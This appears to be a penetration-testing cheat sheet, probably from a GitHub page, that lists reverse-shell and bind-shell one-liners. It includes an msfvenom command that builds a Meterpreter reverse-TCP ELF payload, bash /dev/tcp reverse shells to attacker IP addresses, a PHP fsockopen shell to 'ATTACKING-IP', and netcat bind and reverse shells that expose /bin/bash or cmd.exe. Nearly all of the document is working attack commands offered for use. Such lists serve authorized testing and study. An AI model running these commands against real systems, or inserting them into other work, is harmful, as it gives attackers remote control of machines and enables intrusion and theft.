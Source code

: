 ### Binary

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

# Other Methods

## Bash

```text
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```text
bash -i >& /dev/tcp/10.0.0.130/8080 0>&1
```

## PHP

```php
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat

### Bind shell

```text
Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

Windows
nc.exe -nlvp 4444 -e cmd.exe
```

### Reverse shell

```text
Setup listener
nc -lvp 5555

Send back shells

>> Example 1
nc 192.168.1.101 5555 -e /bin/bash

>> Example 2
/bin/sh | nc 10.10.10.130 8888
```

